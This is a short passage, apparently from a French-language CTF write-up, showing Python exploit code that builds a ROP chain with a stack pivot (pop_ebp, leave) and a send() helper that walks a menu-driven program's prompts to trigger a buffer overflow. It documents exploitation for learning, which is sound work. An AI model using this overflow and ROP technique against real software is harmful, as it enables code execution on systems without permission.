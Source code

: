 ```
chaine+=p32(pile)
chaine+=p32(pop_ebp)	<---- on passe sur cette pile
chaine+=p32(pile)
chaine+=p32(leave)
rep=send("eductible",chaine)
```
La fonction send ci dessous effectue le bufferoverflow et renvoit la réponse dès la réception du mot attente ("Deductible", "Income" ... vont servir de balises)
```
def send(attente,test): 
    p.send("1\n")
    time.sleep(TIME)

    print p.recvuntil(": ")
    p.send("m\n")
    time.sleep(TIME)
    print p.recvuntil(": ")
    p.send("m\n")
    time.sleep(TIME)
    print p.recvuntil(": ")
    p.send("m\n")
    time.sleep(TIME)
    print p.recvuntil(": ")
    p.send("m\n")
    print p.recvuntil("m")
    p.send("3\n")
    time.sleep(TIME)

    print p.recvuntil(": ")
    p.send("m\n")
    time.sleep(TIME)
    print p.recvuntil(": ")
    p.send("m\n")
    time.sleep(TIME)
    print p.recvuntil(": ")
    p.send("1\n")
    time.sleep(TIME)
    print p.recvuntil(": ")
    p.send("1\n")
    time.sleep(TIME)
    print p.recvuntil("y/n")
    p.send(test+"\n")
    time.sleep(TIME)
    if (len(attente) > 0):
        try:
            readbuffer=p.recvuntil(attente)
            return(readbuffer)
        except:
            readbuffer=p.recvall(TIME)
            return readbuffer
    else:
        readbuffer=p.recvall(TIME)
        return readbuffer
```
